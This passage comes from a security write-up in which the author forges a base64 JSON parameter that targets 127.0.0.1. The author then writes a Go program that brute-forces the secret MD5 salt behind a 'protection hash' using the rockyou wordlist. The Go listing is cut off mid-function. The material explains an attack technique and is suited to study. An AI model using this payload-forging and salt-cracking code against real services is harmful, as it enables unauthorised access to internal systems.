 ```bash
$ echo '{"target":"127.0.0.1","hash":"5f2940d65ca4140cc18d0878bc398955"}' | base64 -w 0
eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQo=
```

Navigating to the original link but with the payload swapped out for the one I generated above resulted in an error:

```
Invalid Protection Hash
```

In order to supply my own target, I needed to also provide a valid `hash` parameter. So what could this be? The most likely setup was this hash was generated from a combination of the `target` value and a secret salt, which I didn't know.

However, I had a valid example with a `target` and it's associated `hash`, so I could try to brute force the salt.

I wrote a quick bit of Go for speed, and loaded up rockyou.txt as my wordlist. This created MD5 hashes of `203.0.113.33` appended to each word in the wordlist, and each word in the wordlist appended to `203.0.113.33` i.e. md5("${ip}${salt}") and md5("${salt}${ip}"). It would stop when a produced hash matched the epxected one: `5f2940d65ca4140cc18d0878bc398955`.

```go
package main

import (
	"bufio"
	"crypto/md5"
	"fmt"
	"io"
	"os"
)

const target = "5f2940d65ca4140cc18d0878bc398955"
const input = `203.0.113.33`

func main() {
	file, err := os.Open("/home/liamg/Downloads/rockyou.txt")
	if err != nil {
		panic(err)
	}
	defer file.Close()

	scanner := bufio.NewScanner(file)
	for scanner.Scan() {
		salt := scanner.Text()
		if hash(input+salt) == target {
			panic("Found salt md5(input+salt): " + salt)
		}
		if hash(salt+input) == target {
			panic("Found salt md5(salt+input): " + salt)
		}
	}

	if err := scanner.Err(); err != nil {
		panic(err)
	}

	panic("FAILED")
}

func hash(i string) string {
	h := md5.New()
	io.WriteString(h, i)
	return fmt.Sprintf("%x", h.Sum(nil))
```